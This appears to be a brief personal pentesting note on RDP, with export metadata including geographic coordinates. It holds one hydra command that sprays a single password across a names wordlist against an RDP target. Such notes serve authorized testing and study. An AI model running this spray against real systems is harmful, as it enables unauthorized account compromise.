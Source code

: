 ```yaml
---
title: RDP
updated: 2025-04-23 11:51:20Z
created: 2025-04-23 11:51:10Z
latitude: -33.78668940
longitude: 150.95264980
altitude: 0.0000
---
```


## Password Spraying with Hydra
`hydra -L /usr/share/wordlists/dirb/others/names.txt -p "Pa55w0rd" rdp://<target>`